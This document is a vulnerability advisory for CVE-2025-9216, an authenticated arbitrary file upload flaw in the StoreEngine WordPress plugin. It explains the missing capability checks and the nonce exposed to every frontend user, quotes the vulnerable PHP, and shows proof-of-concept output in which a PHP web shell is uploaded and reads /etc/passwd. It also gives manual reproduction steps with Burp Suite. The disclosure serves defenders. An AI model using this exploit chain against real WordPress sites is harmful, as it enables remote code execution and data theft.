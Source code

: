 +++
title = 'StoreEngine – Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Upload'
date = 2025-09-16T00:01:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "StoreEngine"]
description = "CVE-2025-9216: WordPress StoreEngine plugin arbitrary file upload vulnerability allowing any authenticated user to upload PHP shells."
+++
### CVE-2025-9216

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in it's CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to upload arbitrary files and gain remote code execution. The vulnerability stems from two security flaws: (1) the CSV import endpoint lacks proper file validation checks, permission checks, and only relies on nonce verification for security, and (2) the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This combination allows any authenticated user to extract the nonce from frontend pages and use it to upload PHP web shells via the `storeengine_csv/import` endpoint, effectively granting subscriber+ users the ability to execute arbitrary code on the server.

## TL;DR Exploits
* A POC [CVE-2025-9216.py](https://github.com/d0n601/CVE-2025-9216/blob/master/CVE-2025-9216.py) is provided to demonstrate an administrator uploading a web shell named `omg.php`.
  
```console
python3 ./CVE-2025-9216.py http://localhost:1337 user1 password
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: ff15beb1bd
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
Uploading web shell: omg.php
File upload response: {"success":true,"data":{"filename":"omg.php"}}

Web Shell At: http://localhost:1337/wp-content/uploads/storeengine_uploads/csv/omg.php

Executing test command: cat /etc/passwd
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</pre>

```

## Details  

### **Vulnerable File Upload Function**
The `storeengine_csv/import` AJAX action calls the `import()` function on line [51](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/import.php#L51) of `/wp-content/plugins/storeengine/addons/csv/ajax/import.php`, which lacks proper permission checks and file type validation:

```php
public function import() {
    if ( ! isset( $_FILES['file'] ) ) {
        wp_send_json_error( 'No file uploaded.' );
    }

    $file   = $_FILES['file'];
    $folder = Helper::get_upload_dir() . '/csv/';

    if ( ! file_exists( $folder ) ) {
        wp_mkdir_p( $folder );
    }

    $filename = sanitize_file_name( $file['name'] );
    $target   = trailingslashit( $folder ) . $filename;

    if ( ! move_uploaded_file( $file['tmp_name'], $target ) ) {
        wp_send_json_error( 'Failed to move uploaded file.' );
    }

    wp_send_json_success( [
        'filename' => $filename,
    ] );
}
```

The function only uses `sanitize_file_name()` to clean the filename but does not perform any file type validation or capability checks. This allows uploading any file type, including PHP files that can be executed by the web server.

### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```


This combination allows any authenticated user to upload arbitrary files, including PHP web shells for remote code execution.



## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Import section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Attempt to upload a file and intercept the `POST` request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/import` action.
5. Modify the request to include an arbitrary file, in the example below we're uploading a PHP web shell.
6. Send the request and receive `{"success":true,"data":{"filename":"shell.php"}}`.
7. Browse the web shell at `https://example.com/wp-content/uploads/storeengine_uploads/csv/shell.php` and execute code.